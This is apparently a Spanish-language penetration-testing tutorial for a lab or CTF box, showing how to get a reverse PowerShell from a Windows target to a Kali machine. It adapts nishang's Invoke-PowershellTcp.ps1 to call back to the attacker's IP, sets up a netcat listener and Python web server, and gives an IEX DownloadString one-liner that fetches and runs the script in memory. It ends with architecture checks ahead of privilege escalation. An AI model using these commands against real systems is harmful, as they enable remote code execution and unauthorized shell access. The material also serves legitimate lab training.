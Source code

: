 Utilizaremos el script Invoke-PowershellTcp.ps1 de [nishang](https://github.com/samratashok/nishang) que esta ubicado dentro de la carpeta shells del repositorio:

Lo copiamos a una ruta donde lo vamos a renombrar para no hacer tanto lio.

```bash
cp /nishang/Shells/Invoke-PowershellTcp.ps1 /home/kali/maquina/exploits

mv Invoke-PowershellTcp.ps1 PS.ps1
```

Puedes pasar este archivo a la maquina windows, cargarlo en memoria e invocarlo. O puedes hacer estos 3 pasos de un solo golpe, eso es lo que haremos acontinuacion:

Vamos a editar el archivo PS.ps1 y vamos a llamarlo al final del archivo con el siguiente comando (esta es la linea que tenemos que agregar):

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <IP Kali> -Port <Puerto netcat>
```

De modo que cuando se cargue el archivo se invoke directamente una reverse powershell a nuestra maquina, nos quedamos a la escucha en el puerto definido:

```bash
rlwrap nc -lvnp <Puerto netcat>
```

Compartimos el archivo desde nuestra maquina Kali con python:

```bash
python -m SimpleHTTPServer # python2

python3 -m http.server # python3
```

y ahora lo vamos a ejecutar en memoria desde la maquina windows y asi como al final del archivo PS.ps1 se esta invocando la reverse powershell se nos enviara ésta a la escucha en netcat:

```bash
start /b C:\Windows\SysNative\WindowsPowershell\v1.0\powershell IEX(New-Object Net.WebClient).downloadString('http://<IP kali>:8000/PS.ps1')
```

Con esto se nos establecera una conexion a la maquina windows medianet una powershell.

Es mejor llamar a powershell desde **C:\Windows\SysNative\WindowsPowershell\v1.0\powershell** ya que asi estamos en la misma arquitectura tanto del sistema operativo y del proceso, lo puede comprobar de la siguiente manera:

```bash
# ya desde la reverse powershell

[Environment]::Is64BitOperatingSystem   # True

[Environment]::Is64BitProcess   # True
```

Ambos deben ser o True o false para que coincidan con la arquitectura, esto para que al llamar a las herramientas automatizadas para elevar privilegios no tengamos falsos positivos.
